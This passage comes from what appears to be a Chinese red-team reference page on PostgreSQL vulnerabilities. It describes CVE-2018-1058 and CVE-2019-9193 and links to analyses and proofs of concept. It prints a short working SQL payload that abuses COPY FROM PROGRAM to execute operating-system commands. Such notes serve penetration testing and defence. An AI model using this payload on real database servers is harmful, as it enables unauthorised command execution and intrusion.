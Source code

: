 可以看到,重新加载配置文件后,ssl_passphrase_command 中的命令已经执行

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/48.png)

### CVE-2018-1058 PostgreSQL 提权漏洞

**描述**

PostgreSQL 其 9.3 到 10 版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

**相关文章**
- [PostgreSQL 远程代码执行漏洞分析及利用—【CVE-2018-1058】](https://xz.aliyun.com/t/2109)

**POC | Payload | exp**
- [PostgreSQL 提权漏洞（CVE-2018-1058）](https://vulhub.org/#/environments/postgres/CVE-2018-1058/)

### CVE-2019-9193 PostgreSQL 高权限命令执行漏洞

**描述**

PostgreSQL 其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

**利用条件**
- 版本9.3-11.2
- 超级用户或者pg_read_server_files组中的任何用户

**相关文章**
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
  - [PostgreSQL（从版本9.3至11.2）任意命令执行漏洞（CVE-2019-9193）](https://nosec.org/home/detail/2368.html)

**POC | Payload | exp**
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/3.png)
